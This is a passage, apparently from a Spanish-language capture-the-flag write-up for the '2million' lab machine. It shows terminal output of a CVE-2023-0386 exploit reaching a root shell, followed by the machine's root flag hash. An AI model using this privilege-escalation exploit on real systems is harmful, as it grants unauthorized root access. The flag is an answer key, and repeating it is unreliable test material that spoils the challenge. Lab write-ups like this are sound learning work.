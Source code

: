 ```
uid:1000 gid:1000
[+] mount success
total 8
drwxrwxr-x 1 root   root     4096 Oct  1 08:22 .
drwxr-xr-x 6 root   root     4096 Oct  1 08:22 ..
-rwsrwxrwx 1 nobody nogroup 16096 Jan  1  1970 file
[+] exploit success!
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

root@2million:/tmp/CVE-2023-0386# whoami
root
```

Con esto veremos que ya seremos `root`, por lo que leeremos la `flag` de `root`.

> root.txt

```
171f59c427d2efdd9cae417d79dd1174
```
